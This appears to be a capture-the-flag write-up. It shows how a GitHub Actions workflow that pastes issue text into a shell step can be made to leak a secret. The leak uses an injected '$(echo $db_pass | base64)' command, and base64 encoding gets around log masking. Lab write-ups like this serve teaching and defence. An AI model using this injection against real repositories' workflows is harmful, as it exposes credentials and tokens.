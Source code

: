 # Comments

Head over to the [challenge-1 repository](https://github.com/OctoHigh/challenge-1-linpeiyu164)

It asks us to create a comment to submit a review of our favorite teacher.

By looking at the workflow file, we see that the secret flag is stored as the db_pass environment variable:

    jobs:
      parse-review:
        runs-on: ubuntu-latest
        steps:
          - name: Extract Teacher name and review from issue body
            id: extract-review
            env:
              db_pass: ${{ secrets.FLAG }} # Do we still need this to write to the DB?
            run: |
              TEACHER=$(echo '${{ github.event.issue.body }}' | grep -oP 'Teacher:.*$')
              REVIEW=$(echo '${{ github.event.issue.body }}' | grep -vP 'Teacher:.*$')
              echo "::set-output name=teacher::$TEACHER"
              echo "::set-output name=review::$REVIEW"
          - name: Comment on issue
            uses: actions/github-script@v5
            with:
              github-token: ${{secrets.GITHUB_TOKEN}}
              script: |
                const issueComment = {
                  owner: context.repo.owner,
                  repo: context.repo.repo,
                  issue_number: ${{ github.event.issue.number }},
                  body: `Thank you for reviewing ${'{{ steps.extract-review.outputs.teacher }}'}! Your review was:
                  ${'{{ steps.extract-review.outputs.review }}'}`
                };
                github.rest.issues.createComment(issueComment);

It also extracts the Teacher and the review we wrote. This meas that we can try to alter the text to make the workflow leak the secret flag:

test.sh:

```
db_pass="TEST_FLAG"


TEACHER=$(echo '
Thank you for taking the time to write a review about your teacher! Please fill out the template below to submit your feedback!

Teacher:
' $(echo $db_pass | base64) '

Review:
review

Rating (1-10):
10
' | grep -oP 'Teacher:.*$')


echo $TEACHER

```

We base64 encode it because the logs filter out any printed plaintext of the secrets.

Result:

    Teacher: VEVTVF9GTEFHCg==

The final comment and logs look like this:

![Alt text](Images/image.png)

![Alt text](Images/image2.png)

Flag: EKO{m0ve_y0uR_b4dy}

## References

-   <https://karimrahal.com/2023/01/05/github-actions-leaking-secrets/>
